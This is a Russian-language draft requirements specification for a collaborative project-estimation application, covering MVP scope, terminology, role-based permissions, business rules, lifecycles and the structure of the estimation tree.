# SPEC.md — Приложение совместной оценки проектов

| Параметр | Значение |
|---|---|
| Документ | Спецификация требований к приложению (функциональные, нефункциональные, ИБ, архитектура) |
| Версия | 0.2 (макеты экранов перерисованы картинками с выносками) |
| Дата | 03.11.2026 |
| Статус | Черновик к обсуждению |
| Заказчик документа | Marrmon |
| Источники | Документ «Дерево оценки: фазы и гибкая декомпозиция» (принятые решения по дереву, обсуждениям, деньгам, снимкам); «Концепция v2: совместная оценка проектов»; концепция «Живая матрица оценки» (разделы 1–11.4); инструкция к текущему инструменту Cash-Meter |

## Как читать документ

- Требования пронумерованы: `FR-…` — функциональные, `NFR-…` — нефункциональные, `SEC-…` — информационная безопасность, `BR-…` — бизнес-правила. На номера ссылаются тест-кейсы и задачи в трекере, поэтому номера не переиспользуются: удалённое требование помечается «исключено», а не стирается.
- Слова **ДОЛЖНО**, **НЕ ДОЛЖНО**, **СЛЕДУЕТ**, **МОЖЕТ** используются в строгом смысле: «ДОЛЖНО» — обязательное требование MVP, «СЛЕДУЕТ» — желательно в MVP, допустимо перенести с согласия владельца продукта, «МОЖЕТ» — опционально.
- Блоки **«Почему так»** объясняют причину решения. Если разработчику кажется, что можно сделать проще, сначала стоит прочитать этот блок: чаще всего за решением стоит конкретная проблема Cash-Meter или требование безопасности.
- Пометка **[Допущение]** означает решение, которое аналитик принял сам и которое ещё не подтверждено заказчиком. Все такие пункты собраны в разделе 19 «Открытые вопросы».
- Схемы даны в Mermaid (рендерятся в GitLab, GitHub, Confluence с плагином, в опубликованной HTML-версии документа), макеты экранов — картинки с нумерованными выносками и таблицей расшифровки под каждой (раздел 11).

## Содержание

1. [Введение](#1-введение)
2. [Термины и сокращения](#2-термины-и-сокращения)
3. [Роли и права доступа](#3-роли-и-права-доступа)
4. [Бизнес-процесс и жизненные циклы](#4-бизнес-процесс-и-жизненные-циклы)
5. [Структура оценки: дерево](#5-структура-оценки-дерево)
6. [Расчётная модель](#6-расчётная-модель)
7. [Функциональные требования: аутентификация и админка](#7-функциональные-требования-аутентификация-и-админка)
8. [Функциональные требования: проекты и оценка](#8-функциональные-требования-проекты-и-оценка)
9. [Обсуждения, вопросы заказчику, уведомления](#9-обсуждения-вопросы-заказчику-уведомления)
10. [Статистика, снимки, экспорт](#10-статистика-снимки-экспорт)
11. [Макеты экранов](#11-макеты-экранов)
12. [Информационная безопасность](#12-информационная-безопасность)
13. [Архитектура и технологический стек](#13-архитектура-и-технологический-стек)
14. [Модель данных](#14-модель-данных)
15. [API и события реального времени](#15-api-и-события-реального-времени)
16. [Нефункциональные требования](#16-нефункциональные-требования)
17. [Тестирование и критерии приёмки](#17-тестирование-и-критерии-приёмки)
18. [Развёртывание и эксплуатация](#18-развёртывание-и-эксплуатация)
19. [Открытые вопросы и допущения](#19-открытые-вопросы-и-допущения)
20. [Журнал решений](#20-журнал-решений)

---

## 1. Введение

### 1.1. Контекст и проблема

Направление пресейла оценивает проекты создания информационных систем для внешних заказчиков. Сейчас процесс выглядит так: заказчик присылает запрос, специалист пресейла общается с заказчиком, затем модератор собирает экспертов разных дисциплин (бэкенд, фронтенд, аналитика, тестирование, архитектура, DevOps и т. д.), каждый эксперт оценивает свою часть в часах, модератор сводит всё в общую оценку и передаёт её пресейлу, а пресейл — заказчику.

Главная боль — сама оценка на уровне модератора и экспертов. В текущем инструменте Cash-Meter (на 1С):

| Проблема Cash-Meter | Последствие | Как решает новое приложение |
|---|---|---|
| Блокировка строки целиком при редактировании | Эксперты ждут друг друга, работают «по очереди» | Занята только одна ячейка, остальное правится параллельно (FR-TREE-20) |
| Эксперты сами придумывают этапы и фазы | Оценки разных проектов не складываются и не сравниваются | Фазы — справочник компании (раздел 5) |
| Роль проставляется в каждой строке и её забывают | Неверное распределение часов по ставкам | Дисциплина — уровень дерева, роль строки определяется автоматически |
| Правки модератора не видны экспертам | Эксперт не знает, что его цифру изменили | Каждая правка — событие в ленте листа и счётчик у эксперта (FR-DISC-07) |
| Неудобный интерфейс, много ручных «Сохранить» | Ошибки, потерянные изменения | Сохранение на лету, один рабочий экран (раздел 11) |
| База прошлых проектов не используется для калибровки | Каждый раз оценка «с нуля» | Типы узлов, нормы, копирование веток из прошлых проектов |

### 1.2. Цель приложения

Дать модератору и экспертам один инструмент, в котором они **одновременно и независимо** оценивают проект в виде дерева, видят итог и разброс в реальном времени, задают друг другу и заказчику вопросы прямо у строки оценки, а модератор и пресейл получают готовые цифры, допущения и документы для коммерческого предложения (КП).

### 1.3. Измеримые цели (для приёмки пилота)

| Цель | Метрика | Целевое значение |
|---|---|---|
| Сократить время оценки | Медиана от создания проекта до первого снимка «КП отправлено» | −30% к Cash-Meter по 10 пилотным проектам |
| Убрать ожидание блокировок | Число жалоб «не могу редактировать, занято» | 0 |
| Сделать правки прозрачными | Доля правок модератора, которые эксперт увидел (открыл событие) | ≥ 90% |
| Простота для экспертов | Время первого входа эксперта до первого заполненного листа без обучения | ≤ 10 минут |

### 1.4. Границы MVP

**Входит в MVP:**

- аутентификация через приложение или через Active Directory (выбирает суперадминистратор);
- админка суперадминистратора (первичная настройка, безопасность, администраторы) и админка администратора (справочники);
- проекты, команда проекта, ставки и валюта;
- рабочий экран с деревом оценки, расчётами на лету, совместной работой;
- комментарии к листьям, обсуждения под узлами, вопросы заказчику;
- статистика, снимки и сравнение со снимком;
- экспорт в Excel (оценка) и Excel/Word (вопросы заказчику);
- уведомления в приложении и ежедневная сводка на почту;
- журнал аудита.

**Не входит в MVP (кандидаты на следующие этапы):**

- расчёт календарного срока по составу команды и критическому пути (в MVP показываются только часы);
- генерация полного документа КП (в MVP — выгрузка данных для КП);
- автоматический подбор норм по истории проектов (в MVP нормы задаёт администратор вручную, история копится);
- интеграции с CRM, Jira, 1С;
- перенос данных из Cash-Meter (см. открытый вопрос Q-08);
- вход через Kerberos/SSO без ввода пароля (см. Q-05);
- мобильная версия (экран рассчитан на ширину от 1366 px).

### 1.5. Чего приложение сознательно НЕ делает

- Не планирует проект после продажи (это задача трекера задач).
- Не хранит документы заказчика как систему документооборота: в MVP вложения не поддерживаются, на документы ставятся ссылки (см. Q-09).
- Не показывает деньги экспертам ни в каком виде (BR-MONEY-01).

---

## 2. Термины и сокращения

| Термин | Определение |
|---|---|
| Проект (оценка) | Одна оценка одного запроса заказчика. В интерфейсе называется «проект». Содержит дерево, команду, настройки, обсуждения, снимки |
| Дерево оценки | Иерархия узлов: Проект → Фаза → Дисциплина → узлы декомпозиции → листья |
| Фаза | Этап жизненного цикла работ из справочника компании: «Анализ и проектирование», «Разработка», «Тестирование», «Внедрение», «Гарантийная поддержка», «Управление проектом» |
| Дисциплина | Профессиональное направление: Бэкенд, Фронтенд, Аналитика, QA, Архитектура, DevOps и др. Ведётся администратором |
| Ветка дисциплины | Узел «Дисциплина» внутри конкретной фазы со всем поддеревом. Зона ответственности экспертов этой дисциплины |
| Узел | Любой элемент дерева ниже ветки дисциплины, у которого есть дети |
| Лист | Узел без детей. Только листья содержат оценку O/R/P и множитель |
| Тип узла | Значение из словаря: Модуль, Функция, Экран, Интеграция, Отчёт, Сущность, Сервис, Тест-набор, Документ, Работа (+ свои типы компании) |
| Профиль дисциплины | Рекомендованная цепочка типов (например, «Модуль → Функция»), подсказка при добавлении узлов |
| Уровень детализации | Ожидаемая глубина дерева проекта: Крупно / Средне / Детально. Подсказка, не запрет |
| O / R / P | Оптимистичная, реалистичная, пессимистичная оценка трудозатрат в часах на одну штуку |
| Множитель (×N) | Сколько раз повторяется работа листа. Целое число ≥ 1, по умолчанию 1 |
| E | Ожидаемое значение по PERT: (O + 4R + P) / 6 |
| σ | Стандартное отклонение по PERT: (P − O) / 6 |
| P80 | Оценка, которая с вероятностью 80% не будет превышена: E + 0,8416·σ |
| УП | Фаза «Управление проектом», считается процентом от всех остальных фаз |
| Комментарий листа | Текст, описывающий сам лист: ограничения, технологии, риски, допущения. Может иметь метку |
| Метка комментария | «Огр.», «Тех.», «Риск», «Допущение» (справочник администратора) |
| Обсуждение | Лента сообщений под узлом. Для вопросов и переписки |
| Открытый вопрос | Сообщение с флагом «нужен ответ», ещё не закрытое |
| Снимок | Именованная неизменяемая копия оценки на момент времени (например, «v1 — КП отправлено») |
| Ревьюер | Эксперт дисциплины, которому модератор дал право ставить отметку «Проверено» |
| КП | Коммерческое предложение заказчику |
| AD | Microsoft Active Directory, каталог учётных записей компании |
| LDAPS | LDAP поверх TLS (порт 636) |
| TOTP | Одноразовый пароль по времени (RFC 6238), второй фактор аутентификации |
| RBAC | Управление доступом на основе ролей |
| ПДн | Персональные данные (152-ФЗ) |

---

## 3. Роли и права доступа

### 3.1. Два уровня ролей

В приложении роли бывают **системные** (выдаются пользователю на всё приложение) и **проектные** (выдаются в конкретном проекте). Это ключевое различие, его нужно соблюдать и в модели данных, и в проверках прав.



### 3.2. Описание ролей

#### Суперадминистратор

Технический владелец приложения. Отвечает за **первичную настройку** и **безопасность**, а не за содержание оценок.

- Создаётся при установке приложения консольной командой (см. FR-SA-01). Через интерфейс суперадминистратора создать нельзя, кроме как другим суперадминистратором.
- Выбирает и настраивает способ аутентификации: через приложение (локальные учётные записи) или через AD.
- Создаёт, блокирует и разжалует администраторов.
- Настраивает политики безопасности: пароли, блокировки, сессии, второй фактор, разрешённые сети для админки.
- Настраивает почтовый сервер (SMTP), адрес приложения, хранение журналов.
- Просматривает и выгружает журнал аудита.
- **Не видит** содержимое проектов, ставки и деньги. Видит только служебный реестр проектов (название, модератор, статус, даты) — без дерева и обсуждений.

> **Почему так.** Разделение обязанностей (separation of duties): тот, кто управляет доступом, не должен автоматически иметь доступ к коммерческим данным. Если учётная запись суперадминистратора будет скомпрометирована, злоумышленник не получит ставки и оценки напрямую, а любые его попытки выдать себе проектные права оставят след в журнале аудита.

#### Администратор

Методолог приложения. Ведёт справочники, по которым работают все проекты.

- Справочник фаз, список дисциплин, словарь типов узлов и нормы, профили дисциплин.
- Пороги детализации, процент УП по умолчанию, контрольные соотношения дисциплин, метки комментариев.
- Управляет пользователями: выдаёт системные роли «Модератор» и «Пресейл», блокирует пользователей (в режиме «через приложение» — создаёт их; в режиме AD пользователи появляются сами, см. FR-AUTH-AD-06).
- Принимает или отклоняет локальные типы узлов, созданные экспертами.
- Передаёт проект другому модератору (когда модератор уволился или ушёл в отпуск).
- **Не видит** ставки и деньги. Содержимое проектов видит только если сам назначен в проект.
- Роль совместима с ролью модератора: один человек может быть и администратором, и модератором.

#### Модератор (системная роль) и модератор проекта

- Системная роль «Модератор» даёт право **создавать проекты**. Создатель автоматически становится модератором проекта.
- В проекте может быть **несколько модераторов** (как в Cash-Meter). Права у них одинаковые.
- Модератор проекта владеет всей оценкой: настройки проекта, команда, ставки, валюта, процент УП, правка любого листа, снимки, экспорт с деньгами, закрытие любых обсуждений.

#### Эксперт

- Любой активный пользователь, которого модератор назначил в проект на одну или несколько дисциплин.
- Правит структуру и оценки **только в ветках своих дисциплин** (во всех фазах), видит всё дерево проекта.
- Пишет комментарии к листам своих веток, участвует в любых обсуждениях проекта.
- Не видит ставки, стоимость и валюту нигде: ни на экране, ни в статистике, ни в выгрузке, ни в ответах API.

#### Ревьюер

- Не отдельная роль, а признак эксперта в дисциплине проекта. Ставит отметку «Проверено» на лист или ветку своей дисциплины.

#### Пресейл (системная роль) и пресейл проекта

- Общается с заказчиком. С оценкой не работает: дерево только читает.
- Видит деньги (итог в валюте КП, стоимость в статистике, экспорт с деньгами).
- Ведёт список вопросов заказчику: выгружает, меняет статусы, вносит ответы.
- Системная роль «Пресейл» нужна, чтобы пользователя можно было выбрать в поле «Пресейл» настроек проекта.

### 3.3. Матрица прав

Обозначения: ✅ — разрешено; 👁 — только просмотр; ❌ — запрещено; «свои» — только ветки своих дисциплин; «участник» — только в проектах, где пользователь назначен.

| Действие | Супер-админ | Админ | Модератор проекта | Эксперт | Ревьюер | Пресейл проекта |
|---|---|---|---|---|---|---|
| Настроить аутентификацию (локально / AD) | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ |
| Политики безопасности, SMTP, сети | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ |
| Создать / заблокировать администратора | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ |
| Журнал аудита | ✅ | 👁 (только события справочников и пользователей) | ❌ | ❌ | ❌ | ❌ |
| Справочники (фазы, дисциплины, типы, профили, пороги) | ❌ | ✅ | 👁 | 👁 | 👁 | 👁 |
| Выдать роли «Модератор», «Пресейл» | ❌ | ✅ | ❌ | ❌ | ❌ | ❌ |
| Создать / заблокировать пользователя (режим «приложение») | ✅ | ✅ | ❌ | ❌ | ❌ | ❌ |
| Реестр всех проектов (без содержимого) | ✅ | ✅ | ❌ | ❌ | ❌ | ❌ |
| Передать проект другому модератору | ❌ | ✅ | ✅ (добавить модератора) | ❌ | ❌ | ❌ |
| Создать проект | ❌ | ❌ (если нет роли модератора) | ✅ (системная роль) | ❌ | ❌ | ❌ |
| Настройки проекта, команда | ❌ | ❌ | ✅ | 👁 (без денег) | 👁 (без денег) | 👁 |
| Ставки, валюта, курс | ❌ | ❌ | ✅ | ❌ (не видит) | ❌ (не видит) | 👁 |
| Видеть дерево проекта | ❌ | участник | ✅ | ✅ | ✅ | ✅ |
| Менять структуру и O/R/P/×N | ❌ | ❌ | ✅ любые ветки | свои | свои | ❌ |
| Комментарий листа | ❌ | ❌ | ✅ любые | свои | свои | ❌ |
| Статус ветки «черновик / готово» | ❌ | ❌ | ✅ | свои | свои | ❌ |
| Статус ветки «не нужно» | ❌ | ❌ | ✅ | ❌ | ❌ | ❌ |
| Отметка «Проверено» | ❌ | ❌ | ✅ | ❌ | свои | ❌ |
| Писать в обсуждениях | ❌ | ❌ | ✅ | ✅ | ✅ | ✅ |
| Закрыть обсуждение | ❌ | ❌ | ✅ любое | автор или адресат | автор или адресат | автор или адресат |
| Статусы вопросов заказчику, выгрузка вопросов | ❌ | ❌ | ✅ | ❌ | ❌ | ✅ |
| Снимок оценки | ❌ | ❌ | ✅ | ❌ | ❌ | ❌ |
| Сравнение со снимком | ❌ | ❌ | ✅ (с деньгами) | ✅ (только часы) | ✅ (только часы) | ✅ (с деньгами) |
| Статистика | ❌ | ❌ | ✅ (с деньгами) | ✅ (без денег) | ✅ (без денег) | ✅ (с деньгами) |
| Экспорт «часы» | ❌ | ❌ | ✅ | ✅ | ✅ | ✅ |
| Экспорт «с деньгами и допущениями» | ❌ | ❌ | ✅ | ❌ | ❌ | ✅ |
| Восстановить из корзины | ❌ | ❌ | ✅ | свои | свои | ❌ |
| Перевести проект в архив | ❌ | ❌ | ✅ | ❌ | ❌ | ❌ |

**BR-ROLE-01.** Пользователь может одновременно иметь несколько системных ролей (например, Администратор + Модератор). Права суммируются, **кроме** запретов на деньги: администратор, назначенный в проект модератором, видит деньги именно как модератор этого проекта.

**BR-ROLE-02.** Суперадминистратор не может одновременно иметь любые другие роли и не может быть назначен в проект. Если человеку нужно работать с оценками, у него должна быть отдельная обычная учётная запись.

> **Почему так.** Учётная запись суперадминистратора — самая ценная цель атаки. Чем меньше она используется в повседневной работе, тем меньше шанс, что её пароль или сессию украдут (фишинг, заражённый ноутбук, оставленный открытым браузер).

**BR-ROLE-03.** В приложении ДОЛЖЕН быть хотя бы один активный суперадминистратор. Заблокировать или разжаловать последнего суперадминистратора нельзя (кнопка неактивна, API возвращает 409).

**BR-ROLE-04.** Если пользователь в проекте одновременно модератор и эксперт, итоговые права — модератора (как в Cash-Meter), а в команде он показывается в обоих списках.

**BR-ROLE-05.** Эксперт может быть назначен на несколько дисциплин одного проекта (например, «Бэкенд» и «DevOps»).

**BR-ROLE-06.** Если пользователя исключили из проекта, его листья, комментарии и сообщения остаются с указанием автора. Он теряет доступ к проекту сразу, в том числе открытые вкладки получают событие отзыва прав и показывают сообщение «Доступ к проекту отозван».

---

## 4. Бизнес-процесс и жизненные циклы

### 4.1. Сквозной процесс оценки



### 4.2. Жизненный цикл проекта



| Статус | Кто видит проект | Что можно делать | Уведомления |
|---|---|---|---|
| Подготовка | Только модераторы | Настройки, команда, структура фаз. Эксперты ещё не видят проект в «Моих оценках» | Не отправляются |
| Оценка | Вся команда | Всё по правам | Работают |
| Сведение | Вся команда | Эксперты могут править, но ветки «готово» при правке переходят в «черновик» с предупреждением; модератор правит и ставит «Проверено» | Работают |
| Завершена | Вся команда | Только чтение для всех, кроме модератора (может переоткрыть); обсуждения доступны для чтения | Не отправляются |
| Архив | Модераторы и пресейл | Только чтение; проект скрыт из «Моих оценок» по умолчанию, ищется фильтром | Не отправляются |

**BR-PRJ-01.** Переход «Оценка → Сведение» предлагается системой автоматически (баннер модератору «Все ветки готовы. Перейти к сведению?»), но выполняется только кнопкой модератора. **Почему:** модератор может ждать ответов заказчика, даже если эксперты всё отметили.

**BR-PRJ-02.** Снимки можно делать в статусах «Оценка», «Сведение», «Завершена». **Почему:** снимок «КП отправлено» часто делают до завершения, когда заказчик просит предварительную цифру.

**BR-PRJ-03.** Срок автоархивации (180 дней после «Завершена») настраивает администратор. [Допущение]

**BR-PRJ-04.** Удалить проект физически нельзя никому через интерфейс. Модератор может пометить проект «отменён» (переход в Архив с причиной). Физическое удаление выполняет суперадминистратор консольной командой с записью в аудит (например, по требованию ИБ или при ошибочном создании). **Почему:** оценки — это база для калибровки будущих оценок и доказательство того, что было обещано заказчику.

**BR-PRJ-05.** Дополнительно у проекта есть поле «Результат пресейла»: не известен / выигран / проигран / отменён заказчиком. Заполняет модератор или пресейл в любой момент. Нужно для будущей калибровки норм. [Допущение]

### 4.3. Жизненный цикл ветки дисциплины



**BR-BR-01.** «Готово» ставится, только если в ветке нет листьев с пустой оценкой и с нарушением O ≤ R ≤ P. Открытые вопросы **не блокируют** «готово», но статус показывается как «Готово · 2 открытых вопроса».

**BR-BR-02.** Правка **комментария** листа не сбрасывает «готово». Правка O/R/P, ×N, добавление, удаление, перенос узла — сбрасывают. **Почему:** комментарий не меняет цифру, а цифра, ушедшая после «готово», должна снова пройти внимание эксперта и модератора.

**BR-BR-03.** Статус ветки «Дисциплина» в фазе определяется ровно один на пару «фаза × дисциплина». Отдельных статусов у узлов ниже нет.

### 4.4. Жизненный цикл открытого вопроса и вопроса заказчику



### 4.5. Типовой день эксперта (сценарий для UX-проверки)

1. Эксперт получает письмо-сводку «Вас назначили в проект „Портал дилеров“, дедлайн 14.11» и переходит по ссылке.
2. Вход (AD-пароль или пароль приложения). Попадает на рабочий экран проекта, фильтр «Мои ветки» включён при первом входе.
3. В ветке «Разработка → Бэкенд» нажимает «+», выбирает тип «Модуль», пишет «Личный кабинет», внутри добавляет функции, ставит O/R/P через Tab.
4. Видит, что у «Обмена с 1С» нет протокола. Раскрывает обсуждение под листом, пишет вопрос с адресатом @заказчик и флагом «нужен ответ». Ставит пока широкую вилку 40–60–100 и комментарий «Допущение: обмен через REST, формат согласуем».
5. Закрывает вкладку. Через два дня получает счётчик «1 ответ», переходит прямо к строке, сужает вилку, жмёт «Готово».

---

## 5. Структура оценки: дерево

### 5.1. Уровни

```text
Проект «Портал дилеров»
├─ Фаза: Анализ и проектирование          ← справочник компании, включает модератор
│  ├─ Дисциплина: Аналитика               ← появляется при назначении эксперта
│  │  └─ [лист] Аналитика целиком  60–80–120
│  └─ Дисциплина: Архитектура
│     └─ [Работа] Проектирование архитектуры  16–24–40
├─ Фаза: Разработка
│  ├─ Дисциплина: Бэкенд   (профиль «Модуль → Функция»)
│  │  ├─ [Модуль] Личный кабинет
│  │  │  ├─ [Функция] Авторизация          8–12–20
│  │  │  └─ [Функция] Профиль дилера      12–16–24
│  │  └─ [Интеграция] Обмен с 1С          40–60–100
│  └─ Дисциплина: Фронтенд  (профиль «Экран»)
│     ├─ [Экран] Создать типовой экран ×12  4–6–8
│     └─ [Экран] Дашборд                  16–24–40
├─ Фаза: Тестирование
│  └─ Дисциплина: QA        (профиль «Тест-набор»)
│     ├─ [Тест-набор] Регресс-кейс ЛК ×30  0,5–1–2
│     └─ [Тест-набор] Тесты обмена с 1С    8–12–24
└─ Фаза: Управление проектом · 18% от работ   ← без листьев, считается
```

| Уровень | Кто создаёт | Что можно | Ограничения |
|---|---|---|---|
| Проект | Модератор | Название, заказчик, настройки | — |
| Фаза | Модератор включает из справочника | Включить / выключить, порядок задаётся справочником | Нельзя создать фазу, которой нет в справочнике. Выключить фазу с непустыми ветками можно только после подтверждения; ветки уходят в корзину |
| Дисциплина | Система при назначении первого эксперта на дисциплину — во всех включённых фазах | Статус ветки; ветка может быть листом | Нельзя переименовать, удалить вручную. Пустые ветки в фазах, где у дисциплины нет работы, показываются свёрнутыми серыми строками |
| Узел декомпозиции | Эксперт дисциплины, модератор | Тип, название, вложенность, перенос в пределах своей ветки | Перенос между ветками разных дисциплин запрещён эксперту, модератору разрешён |
| Лист | Эксперт дисциплины, модератор | O/R/P, ×N, комментарий, метка | — |

**BR-TREE-01.** Оцениваются только листья. У узла либо есть дети, либо оценка; одновременно — никогда.

**BR-TREE-02.** «Разбить лист»: лист становится узлом, получает одного ребёнка-лист с прежними O/R/P/×N и названием «<название> — часть 1». Прежняя оценка листа сохраняется в истории узла и показывается в подсказке «до разбиения было 40–60–100». Комментарий остаётся на узле, новые листья получают пустой комментарий.

**BR-TREE-03.** «Свернуть в лист»: узел с детьми становится листом. Система предлагает O/R/P = суммы O, R, P детей (с учётом ×N), ×N = 1; эксперт может изменить. Дети уходят в корзину единым пакетом и восстанавливаются вместе.

